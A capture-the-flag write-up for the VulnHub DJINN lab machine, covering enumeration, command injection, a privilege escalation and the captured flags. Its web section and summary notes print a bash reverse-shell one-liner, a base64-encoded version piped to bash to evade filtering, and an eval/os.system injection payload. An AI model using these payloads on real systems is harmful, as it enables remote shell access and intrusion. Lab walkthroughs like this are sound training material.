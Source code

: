 ```yaml
---
title: DJINN
categories: [VulnHub]
tags: [FTP, Command Injection, PrivEsc]
image:
  path: https://www.vulnhub.com/media/img/entry/djinn-01.png
  alt: DJINN Machine !
---
```



## **Description ⤵️**


💡 [DJINN](https://www.vulnhub.com/entry/djinn-1,397/)

- Level: Beginner-Intermediate
- flags: user.txt and root.txt
- Description: The machine is VirtualBox as well as VMWare compatible. The DHCP will assign an IP automatically. You'll see the IP right on the login screen. You have to find and read two flags (user and root) which is present in user.txt and root.txt respectively.
- Format: Virtual Machine (Virtualbox - OVA)
- Operating System: Linux


### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/DJINN/Untitled.png)

```bash
IP : 10.0.2.12
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%202.png)

```bash
OPEN PORTS >
21  FTP (Anonymous Login Allowed)
22  filtered ssh (Means there is a way to open this may be through knocking ports)
1337 waste ? [I have to check it through netcat]
7331 http (may be vulnerable)
```

---

## FTP Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%204.png)

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%206.png)

After Executing id command I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%207.png)

Now after many hardwork I got to know that for achiving reverse shell I need to decode the encoded code inside the Execute command → 

After so much of hardwork I got to know that base 64 encoded code is executing which decoding it inside the command injection : →

```bash
payload →
bash -i >& /dev/tcp/10.0.2.10/4444 0>&1
Execute →
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg==" | base64 -d | bash
```

Now in return I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%209.png)

```bash
nitish:p4ssw0rdStr3r0n9
```

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2010.png)

```bash
user.txt → 10aay8289ptgguy1pvfa73alzusyyx3c
```

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2011.png)

Now lets exploit →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2012.png)

Lets see how sam can lead us to sam →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2013.png)

.pyc file in `/home/sam/.pyc` After tranfering to attackers machine when I opened it I got to know this part →

```python
def guessit():
		num = randint(1, 101)
		print("Choose a number between 1 to 100: ")
		try:
		    s = input("Enter your number: ")
		    if s == num:  <------ This part num
		        system("/bin/sh")
		    else:
		        print("Better Luck next time")
		except:
		    print("Slow claps again")
```

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2014.png)

Root !! got it →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2015.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2016.png)

proof.txt → `33eur2wjdmq80z47nyy4fx54bnlg3ibc`

<hr>

# **Summery Notes →**

> **bash** -i >**&** **/**dev**/**tcp**/**10.0.2.10**/**4444 **0>&**1 
> **echo** YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== **|** base64 -d **|** **bash** 
> **sudo** -u sam **/**usr**/**bin**/**genie -cmd **whoami** 
> **eval** **(**'__import__("os").system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== | base64 -d | bash")'**)**
{: .prompt-tip }

<hr>